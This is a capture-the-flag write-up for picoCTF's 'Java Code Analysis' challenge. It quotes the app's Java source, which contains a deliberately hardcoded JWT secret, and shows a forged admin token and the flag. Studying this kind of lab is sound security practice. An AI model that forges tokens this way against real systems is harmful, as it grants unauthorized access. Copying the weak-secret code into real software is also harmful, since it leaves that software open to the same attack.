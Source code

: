 # Java Code Analysis!?!
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
- [Reference](#reference)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2023

Description:  
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Hints:
1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
4.  Upgrade your 'role' with the new (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.
```
## Overview
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image1.png)  
* I tried logging in with any email and password, it returned `login failed`  
* I created an account with:  
    * Username : hacker
    * Mail: hacker@gmail.com
    * Password: Hacker@1  

* I created an account successfully and it logged me in  

![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image2.png)

* This is my profile
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image3.png)  

* I can upload my avatar or change my password, it sounds like a file upload vulnerability, but we don't exploit it here.
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image4.png)  

* I see that there is a book outside the home that is a flag. After accessing it, it requires me to have admin rights to view it. This will be the main exploitation point of this article (login with admin).
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image5.png)  

* Read the source provided for better understanding
## Solution
**Step1:** Recon  
* I used burpsuite to catch requests when I logged in  
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image6.png)  
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image7.png)  
* As you can see, this is a JWT vulnerability, we can exploit it to log in with admin rights  
* This is the jwt code initialized by the web

```
Headers = {
  "typ": "JWT",
  "alg": "HS256"
}

Payload = {
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1762172905,
  "iat": 1761568105,
  "userId": 6,
  "email": "hacker@gmail.com"
}

Signature = "KgSMr-IgBCERM85wFwvSaAbXoXHuRBZqwShjk1OO5b4"
```
* As you can see, the jwt code uses HS256 (a symmetric key) to sign  

```SQL
INSERT INTO roles VALUES ('Free', 1);
INSERT INTO roles VALUES ('Basic', 2);
INSERT INTO roles VALUES ('Premium', 3);
INSERT INTO roles VALUES ('Admin', 4);
```
* There are 4 roles initialized as above  
* Our job is to think of a way to find the public key, then change the role to admin and re-sign the jwt  

* This is the code of the JWTService section  
```java
package io.github.nandandesai.pico.security;

import com.auth0.jwt.JWT;
import com.auth0.jwt.JWTVerifier;
import com.auth0.jwt.algorithms.Algorithm;
import com.auth0.jwt.exceptions.JWTVerificationException;
import com.auth0.jwt.interfaces.DecodedJWT;
import io.github.nandandesai.pico.security.models.JwtUserInfo;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.util.Calendar;
import java.util.Date;

@Service
public class JwtService {

    private final String SECRET_KEY;

    private static final String CLAIM_KEY_USER_ID = "userId";
    private static final String CLAIM_KEY_EMAIL = "email";
    private static final String CLAIM_KEY_ROLE = "role";
    private static final String ISSUER = "bookshelf";

    @Autowired
    public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }

    public String createToken(Integer userId, String email, String role){
        Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

        Calendar expiration = Calendar.getInstance();
        expiration.add(Calendar.DATE, 7); //expires after 7 days

        return JWT.create()
                .withIssuer(ISSUER)
                .withIssuedAt(new Date())
                .withExpiresAt(expiration.getTime())
                .withClaim(CLAIM_KEY_USER_ID, userId)
                .withClaim(CLAIM_KEY_EMAIL, email)
                .withClaim(CLAIM_KEY_ROLE, role)
                .sign(algorithm);
    }

    public JwtUserInfo decodeToken(String token) throws JWTVerificationException {
        Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);
        JWTVerifier verifier = JWT.require(algorithm)
                .withIssuer(ISSUER)
                .build();
        DecodedJWT jwt = verifier.verify(token);
        Integer userId = jwt.getClaim(CLAIM_KEY_USER_ID).asInt();
        String email = jwt.getClaim(CLAIM_KEY_EMAIL).asString();
        String role = jwt.getClaim(CLAIM_KEY_ROLE).asString();
        return new JwtUserInfo().setEmail(email)
                .setRole(role)
                .setUserId(userId);
    }
}
```
* It can be seen that `expires after 7 days` 
=> There is no need to worry about the expiration time jwt  
```java
 public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }
``` 
*   The secret key is obtained from `secretGenerator` , now let's take a look  
```java
package io.github.nandandesai.pico.security;

import io.github.nandandesai.pico.configs.UserDataPaths;
import io.github.nandandesai.pico.utils.FileOperation;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.io.IOException;
import java.nio.charset.Charset;

@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
}
```
* From the code above, we can simply understand `secretkey=1234`  

**Step2:** Exploit  
* Create a jwt code with role admin, userID equal to 2 (I tried 1 but it didn't work) and re-sign the code with secretkey =1234  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NjIxNzU2MTIsImlhdCI6MTc2MTU3MDgxMiwidXNlcklkIjoyLCJlbWFpbCI6ImhhY2tlckBnbWFpbC5jb20ifQ.ogABvx_CsEmSjXNp87OEQ5jY7qUMIkNmV3gu7SZTRWw`
* Select inspect then go to local storage and change the parameters to make them valid  
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image8.png)  
## Flag
`picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}`
## Reference
[JWT](https://portswigger.net/web-security/jwt)